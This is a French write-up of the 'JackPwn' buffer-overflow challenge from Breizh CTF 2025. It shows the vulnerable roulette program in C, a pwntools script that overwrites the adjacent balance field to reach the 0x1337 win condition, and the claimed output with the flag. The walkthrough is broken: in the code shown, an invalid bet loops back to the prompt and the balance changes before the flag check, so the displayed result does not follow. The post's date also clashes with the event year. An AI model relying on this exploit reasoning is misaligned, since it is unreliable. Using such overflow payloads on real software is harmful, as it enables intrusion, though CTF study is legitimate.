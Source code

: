 ```yaml
---
title: "Breizh CTF 2025 - JackPwn"
date: 2024-04-14
tags: ["buffer-overflow", "exploitation"]
categories: ["pwn"]
ctfs: ["breizh-ctf"]
---
```


# JackPwn - Breizh CTF 2025

## Description du challenge

JackPwn est un challenge de la catégorie Pwn du Breizh CTF 2025. Il simule un jeu de roulette avec une vulnérabilité de buffer overflow.

## Analyse du binaire

Voici le code source du binaire :

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <time.h>

#define MISE 2

const char roulette[] = "xRNRNRNRNRNNRNRNRNRRNRNRNRNRNNRNRNRNR";

void read_input(char *buf) {
    char c;
    while (1) {
        c = getchar();
        if (c == '\n') {
            *(buf++) = 0;
            break;
        } else if (c == EOF) {
            exit(0);
        }
        *(buf++) = c;
    }
}

int get_random_number() {
    return 1 + (random() % 36);
}

int main() {
    int bille;
    char gagne;
    char valide, rouge, noir, pair, impair;

    struct {
        char mise[32];
        int solde;
    } ctx;

    ctx.solde = 50;

    srand(time(NULL));

    while (ctx.solde > 0) {
        valide = rouge = noir = pair = impair = 0;
        gagne = 0;

        do {
            printf("Solde : %d\n", ctx.solde);
            printf("Votre mise : ");
            fflush(stdout);
            read_input(ctx.mise);

            if (!strcmp(ctx.mise, "rouge")) {
                valide = rouge = 1;
            } else if (!strcmp(ctx.mise, "noir")) {
                valide = noir = 1;
            } else if (!strcmp(ctx.mise, "pair")) {
                valide = pair = 1;
            } else if (!strcmp(ctx.mise, "impair")) {
                valide = impair = 1;
            } else {
                puts("Mise invalide");
            }
        } while (!valide);

        bille = get_random_number();
        printf("La bille s'est stoppée sur la case %d (%c)\n", bille, roulette[bille]);

        if (rouge && roulette[bille] == 'R') {
            gagne = 1;
        } else if (noir && roulette[bille] == 'N') {
            gagne = 1;
        } else if (pair && ((bille % 2) == 0)) {
            puts("pair");
            gagne = 1;
        } else if (impair && ((bille % 2) == 1)) {
            puts("impair");
            gagne = 1;
        } else {
            gagne = 0;
        }

        if (gagne) {
            puts("Gagné");
            ctx.solde += MISE;
        } else {
            puts("Perdu");
            ctx.solde -= MISE;
        }

        if (ctx.solde == 0x1337) {
            char *flag = getenv("FLAG");
            if (flag == NULL) {
                puts("fake_flag");
            } else {
                puts(flag);
            }
            return 0;
        }
    }
}
```

Après analyse, on peut identifier plusieurs points clés :

1. Le programme simule un jeu de roulette où le joueur peut miser sur "rouge", "noir", "pair" ou "impair"
2. Une structure `ctx` contient deux éléments :
   - `mise[32]` : un buffer de 32 octets pour stocker la mise
   - `solde` : un entier qui représente l'argent du joueur
3. Le flag est affiché uniquement si le solde atteint exactement 0x1337 (4919 en décimal)
4. La fonction `read_input()` lit des caractères jusqu'à rencontrer un retour à la ligne, sans vérifier la taille du buffer
5. Avec un solde initial de 50 et des gains/pertes de seulement 2, il faudrait énormément de parties pour atteindre 4919

## Vulnérabilité

La vulnérabilité principale est un buffer overflow classique dans la fonction `read_input()` :

```c
void read_input(char *buf) {
    char c;
    while (1) {
        c = getchar();
        if (c == '\n') {
            *(buf++) = 0;
            break;
        } else if (c == EOF) {
            exit(0);
        }
        *(buf++) = c;
    }
}
```

Cette fonction ne vérifie pas la taille du buffer et continue d'écrire tant qu'elle ne rencontre pas un retour à la ligne. De plus, lors de l'appel à cette fonction, le buffer passé en paramètre est `ctx.mise`, qui ne fait que 32 octets. Si on entre plus de 32 caractères, on débordera sur le champ `solde` qui se trouve juste après dans la mémoire.

## Exploitation

La stratégie d'exploitation est simple :
1. Remplir les 32 octets du buffer `mise`
2. Écrire en plus exactement les 4 octets de la valeur 0x1337 (4919) dans `solde`
3. La valeur sera considérée comme valide car le buffer se termine par un 0 (ajouté par `read_input`)

Voici comment exploiter cette vulnérabilité :

```python
from pwn import *

# Connexion au serveur distant
conn = remote('jackpwn.chall.ctf.bzh', 1337)

# Création du payload
payload = b"A" * 32  # Remplir le buffer mise
payload += p32(0x1337)  # Écrire 0x1337 dans solde

# Attente du prompt et envoi du payload
conn.recvuntil(b"Votre mise : ")
conn.sendline(payload)

# Affichage du résultat
response = conn.recvall().decode()
print(response)
```

## Flag

Après exécution de l'exploit, le programme détecte que le solde est exactement 0x1337 et affiche le flag :

```
$ python3 exploit.py
[+] Opening connection to jackpwn.chall.ctf.bzh on port 1337: Done
[+] Receiving all data: Done
[*] Closed connection to jackpwn.chall.ctf.bzh port 1337
Mise invalide
Solde : 4919
Votre mise : 
BZHCTF{j4ckp0t_0v3rfl0w_ftw}
```

## Conclusion

JackPwn est un exercice classique de buffer overflow visant à modifier une variable adjacente en mémoire. La vulnérabilité est dans la fonction `read_input()` qui n'effectue aucune vérification de la taille du buffer, permettant ainsi d'écrire au-delà des limites du tableau `mise` et de modifier directement la valeur de `solde` pour atteindre la condition de victoire. 